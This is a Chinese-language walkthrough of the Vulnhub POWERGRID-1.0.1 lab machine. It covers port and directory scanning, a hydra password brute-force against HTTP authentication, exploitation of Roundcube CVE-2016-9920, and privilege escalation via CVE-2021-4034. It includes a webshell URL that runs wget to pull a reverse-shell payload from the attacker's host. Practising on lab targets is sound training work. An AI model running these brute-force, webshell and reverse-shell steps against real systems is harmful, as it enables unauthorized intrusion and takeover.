 ```yaml
---
layer: article
title: Vulnhub	485	POWERGRID-1.0.1
tags: pentest vulnhub Walkthrough
---
```

考点：hydra,CVE

靶机链接：<https://www.vulnhub.com/entry/powergrid-101,485/>

## 环境配置

| 名称            | IP        |
| --------------- | --------- |
| Kali Linux      | 10.0.2.15 |
| POWERGRID-1.0.1 | 10.0.2.28 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.28
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: PowerGrid - Turning your lights off unless you pay.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: STARTTLS listed IMAP4rev1 LOGINDISABLEDA0001 more have Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 listed IMAP4rev1 have more Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
```

### WEB测试

```bash
$ gobuster dir --url http://10.0.2.28 -w /usr/share/wordlists/dirb/big.txt -x .php
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/images               (Status: 301) [Size: 307] [--> http://10.0.2.28/images/]
/index.php            (Status: 200) [Size: 3644]                              
/server-status        (Status: 403) [Size: 274]                               
/zmail                (Status: 401) [Size: 456]                  
```

访问首页获得用户名三个，本地保存至文件`user`

![1](https://static.iihack.com/vulnhub/485/1.jpg)



访问zmail发现需要http认证

![2](https://static.iihack.com/vulnhub/485/2.jpg)

上hydra爆破

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.28 http-get /zmail 
```

获得用户名密码

用户 `p48`

密码 `electrico`

### 漏洞发现

再次访问

![4](https://static.iihack.com/vulnhub/485/4.jpg)

登录成功

![5](https://static.iihack.com/vulnhub/485/5.jpg)



对照<https://github.com/t0kx/exploit-CVE-2016-9920> 进行利用

![6](https://static.iihack.com/vulnhub/485/6.jpg)

## 获得权限

获得webshell，下载反弹shell

http://10.0.2.28/zmail/backdoor.php?cmd=wget http://10.0.2.24/reverse/r444.php 

访问http://10.0.2.28/zmail/r444.php后获得反弹shell

![7](https://static.iihack.com/vulnhub/485/7.jpg)



## 提权

使用CVE-2021-4034提权

![8](https://static.iihack.com/vulnhub/485/8.jpg)
